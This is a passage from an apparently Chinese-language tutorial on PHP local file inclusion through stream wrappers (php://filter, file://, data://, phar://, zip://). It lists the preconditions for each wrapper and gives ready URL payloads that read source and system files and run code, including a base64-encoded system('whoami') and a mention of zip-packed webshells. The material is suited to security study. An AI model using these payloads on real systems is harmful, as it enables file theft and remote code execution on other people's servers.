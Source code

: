 利用条件：allow_url_fopen = On

用法：

www.xxx.com/index.php?filename=php://filter/read=convert.base64-encode/resource=xxx.php

或者

www.xxx.com/index.php?filename=php://filter/convert.base64-encode/resource=xxx.php

通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码一下就可以看到文件源码。可以用来读取敏感文件。

### file://
通过file协议可以访问本地文件系统，读取到文件的内容。

用法：www.xxx.com/index.php?filename=file://c:/boot.ini
其中c:/boot.ini为本地文件，是可控制的。

### data://
数据流封装器，和php://相似都是利用了流的概念，将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入payload来实现目的。

利用条件：
1. php>=php5.2
2. allow_url_fopen = On
3. allow_url_include = On

用法：
1. www.www.com/index.php?filename=data:text/plain,<?php phpinfo();?>

2. www.www.com/index.php?filename=data:text/plain;base64,data:text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==


其中base64代表进行了base64加密，后面为加密后的代码。
PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==解码后为

`<?php system('whoami');?>`

### phar://
这个参数是就是php解压缩包的一个函数，不管后缀是什么，都会当做压缩包来解压。

利用条件： 
1. PHP > =5.3.0
2. 压缩包需为zip协议，不可以为rar。

用法：www.xxx.com/index.php?filename=phar://test.zip/test.php

路径可以为绝对路径也可以为相对路径。

其中test.php压缩后可以将test.zip的后缀改成其他后缀，不影响利用。test.php的内容可以为一句话木马等其他内容。

### zip://
zip伪协议和phar协议类似，但是用法不一样。

条件：PHP > =5.3.0（Windows情况下，PHP同时需要<5.4)

用法：www.xxx.com/index.php?filename=zip://[压缩文件绝对路径]#[压缩文件内的子文件名]

例如：www.xxx.com/index.php?filename=zip://c:/test/test.zip#test.php
